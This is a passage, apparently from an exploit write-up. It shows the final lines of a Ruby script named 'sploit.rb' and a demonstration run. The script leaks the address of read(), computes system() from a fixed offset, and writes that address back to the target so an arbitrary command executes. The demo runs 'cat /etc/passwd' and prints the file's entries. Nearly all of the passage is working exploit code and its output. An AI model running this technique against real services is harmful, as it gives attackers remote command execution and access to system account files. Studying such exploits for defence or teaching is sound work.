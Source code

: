 <span class="lnr">80 </span>
<span class="lnr">81 </span><span class="Comment"># Get the result of the first read() call, which is the actual address of read</span>
<span class="lnr">82 </span>this_read_addr = s.read(<span class="Constant">4</span>).unpack(<span class="Special">&quot;</span><span class="Constant">I</span><span class="Special">&quot;</span>).first
<span class="lnr">83 </span>
<span class="lnr">84 </span><span class="Comment"># Calculate the address of system()</span>
<span class="lnr">85 </span>this_system_addr = this_read_addr - read_system_diff
<span class="lnr">86 </span>
<span class="lnr">87 </span><span class="Comment"># Write the address back, where it'll be read() into the correct place by</span>
<span class="lnr">88 </span><span class="Comment"># the second read() call</span>
<span class="lnr">89 </span>s.write([this_system_addr].pack(<span class="Special">&quot;</span><span class="Constant">I</span><span class="Special">&quot;</span>))
<span class="lnr">90 </span>
<span class="lnr">91 </span><span class="Comment"># Finally, read the result of the actual command</span>
<span class="lnr">92 </span>puts(s.read())
<span class="lnr">93 </span>
<span class="lnr">94 </span><span class="Comment"># Clean up</span>
<span class="lnr">95 </span>s.close()
</pre>

And here it is in action:

<pre>
<span class="lnr">1 </span><span class="Identifier">$ ruby sploit.rb &quot;cat /etc/passwd&quot;</span>
<span class="lnr">2 </span><span class="Identifier">root</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Comment">root</span><span class="Normal">:</span><span class="Type">/root</span><span class="Normal">:</span><span class="Statement">/bin/bash</span>
<span class="lnr">3 </span><span class="Identifier">daemon</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Comment">daemon</span><span class="Normal">:</span><span class="Type">/usr/sbin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">4 </span><span class="Identifier">bin</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Comment">bin</span><span class="Normal">:</span><span class="Type">/bin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">5 </span><span class="Identifier">sys</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">3</span><span class="Normal">:</span><span class="Constant">3</span><span class="Normal">:</span><span class="Comment">sys</span><span class="Normal">:</span><span class="Type">/dev</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">6 </span><span class="Identifier">[...]</span>
</pre>
